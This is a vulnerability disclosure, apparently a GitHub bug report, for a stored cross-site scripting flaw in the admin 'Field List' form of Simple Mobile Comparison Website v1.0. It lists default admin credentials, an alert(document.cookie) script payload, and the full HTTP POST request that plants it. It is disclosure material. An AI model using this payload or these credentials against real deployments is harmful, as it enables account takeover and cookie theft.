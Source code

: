# Simple Mobile Comparison Website v1.0 has stored cross-site scripting

BUG_Author:sunyucheng

Website source code address: https://www.sourcecodester.com/php/15186/simple-mobile-comparison-website-phpoop-free-source-code.html

Vulnerability url: /mcw/classes/Master.php?f=save_field

POST form-data parameter name exists stored cross-site scripting

#### Steps to reproduce

1.Go to the admin Login

http://localhost/mcw/admin/login.php

Default Admin Access: Username: admin / Password: admin123

2.Click on "Field List" and Click on "+ Create New".

3.Put Payload into the Field Name

Payload:<script>alert(document.cookie)</script>

![image](https://github.com/sunyucheng0405/bug_report/blob/main/xss1.png)

4.Click on Save

Transmission packet

```
POST /mcw/classes/Master.php?f=save_field HTTP/1.1
Host: localhost
Content-Length: 555
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryWIRCYsmrR7zz9nDG
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/mcw/admin/?page=fields
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=3o0s1j8jkgqito3ks6rblb0g3f
Connection: close

------WebKitFormBoundaryWIRCYsmrR7zz9nDG
Content-Disposition: form-data; name="id"


------WebKitFormBoundaryWIRCYsmrR7zz9nDG
Content-Disposition: form-data; name="category_id"

1
------WebKitFormBoundaryWIRCYsmrR7zz9nDG
Content-Disposition: form-data; name="name"

<script>alert(document.cookie)</script>
------WebKitFormBoundaryWIRCYsmrR7zz9nDG
Content-Disposition: form-data; name="description"

a
------WebKitFormBoundaryWIRCYsmrR7zz9nDG
Content-Disposition: form-data; name="status"

1
------WebKitFormBoundaryWIRCYsmrR7zz9nDG--
```

5.Payload will trigger when a user visits on http://localhost/mcw/admin/?page=fields

![image](https://github.com/sunyucheng0405/bug_report/blob/main/xss2.png)
